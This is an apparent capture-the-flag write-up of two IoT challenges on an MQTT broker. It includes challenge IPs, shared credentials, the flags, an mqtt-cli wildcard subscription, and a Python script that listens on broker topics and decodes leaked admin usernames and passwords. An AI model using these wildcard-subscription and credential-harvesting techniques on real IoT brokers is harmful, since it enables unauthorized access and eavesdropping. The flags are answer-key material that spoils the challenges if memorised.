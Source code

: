 See if you have the patience to scratch the itch; patience is key. Mosquitto bites are so annoying!

Connect here: `34.70.255.20:1883` with `iot:iot`

**Flag{fh1nd1n9_R4nd0m_5uBt0P1c5_i5_fuN}**

**Solution:** 
Using the mqtt-cli [https://hivemq.github.io/mqtt-cli/docs/installation/packages.html](https://hivemq.github.io/mqtt-cli/docs/installation/packages.html)

we can run the mqtt-cli shell use `mqtt sh`
use `help` to get a list of possible commands
connect to the ip using mqtt> `con -h 34.70.255.20 -p 1883 -u iot -pw iot`
after connecting, we can run `sub -sJT -oc -t #` to subscribe to wildcard topic `#` and block the console and wait for publish messages `s` to print output to console `-oc` the topic name `T` in pretty JSON format `J`

![](./assets/iot/iot1_flag.png)

## IoT Itchy & Scratchy SecureIoT Co

See if you have the patience to scratch the itch; patience is key. Mosquitto bites are so annoying! Except, in this case.. you can become an admin.

Connect here: `35.225.10.98:1883` with `iot:iot`
and here: http://35.225.10.98

**flag{La2y_aDm1N5_5H0uLD_N07_U53_IoT}**

**Solution:** 

Using this script, we can get the username, password and OTP

```python
import paho.mqtt.client as mqtt
import sys
import base64

def on_connect(client, userdata, flags, rc):
	print("[+] Connection successful")
	# client.subscribe('#', qos = 1)        # Subscribe to all topics
	# client.subscribe('$SYS/#')            # Broker Status (Mosquitto)
	client.subscribe('Office/SecureCo/#')            # Broker Status (Mosquitto)

def on_message(client, userdata, msg):
	print('[+] Topic: %s - Message: %s' % (msg.topic, msg.payload))
	if msg.topic == "Office/SecureCo/device/admin/login/u":
		print('username: ', base64.b64decode(msg.payload))
	if msg.topic == "Office/SecureCo/device/admin/login/p":
		print('password: ', base64.b64decode(msg.payload))
	if msg.topic == "Office/SecureCo/webcam/feed/part1":
		print('part1: ', msg.payload)
	if msg.topic == "Office/SecureCo/webcam/feed/part2":
		print('part2: ', msg.payload)

client = mqtt.Client(client_id = "MqttClient")
client.username_pw_set(username="iot", password="iot")
client.on_connect = on_connect
client.on_message = on_message
client.connect('35.225.10.98', 1883, 60)
client.loop_forever()
```